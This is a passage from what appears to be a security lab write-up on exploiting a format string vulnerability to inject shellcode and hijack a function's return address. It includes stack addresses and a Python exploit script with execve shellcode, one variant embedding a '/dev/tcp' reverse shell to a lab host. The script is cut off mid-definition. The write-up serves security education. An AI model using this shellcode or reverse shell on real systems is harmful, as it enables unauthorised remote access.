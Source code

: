![task-5-c](https://github.com/iukadike/blog/assets/58455326/1a87aa2a-b4e8-4baf-949f-b7f5a822f19b)



#### Inject Malicious Code into the Server Program (A reverse shell)

This task involves injecting a piece of malicious code, in its binary format, into the server’s memory and then using the format string vulnerability to modify the return address field of a function, so when the function returns, it jumps to our injected code—a reverse shell.

In order to inject malicious code into the server program, we would need to modify the value that is stored in the return address of the function we are exploiting. This lab has been designed in such a way that when the program runs, it prints out certain values for the student.

We would be needing two values:
- the frame-pointer address inside the vulnerable function
- the input buffer's address

From the information the server prints out, we can determine these values to be:
- 0x00007FFFFFFFE0D0 (frame-pointer address)
- 0x00007FFFFFFFE190 (input buffer's address)

When we build our attack string, it will consist of the following:
- the return address of the vulnerable function = frame-pointer address + 8
- the memory address of our malicious code = the input buffer's address + (a value yet to be determined)
- the malicious code

![task-5-d](https://github.com/iukadike/blog/assets/58455326/06217c07-3ebf-42be-bcd5-88e97ebefbcd)


The code we will use to attack the server is as follows:

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
```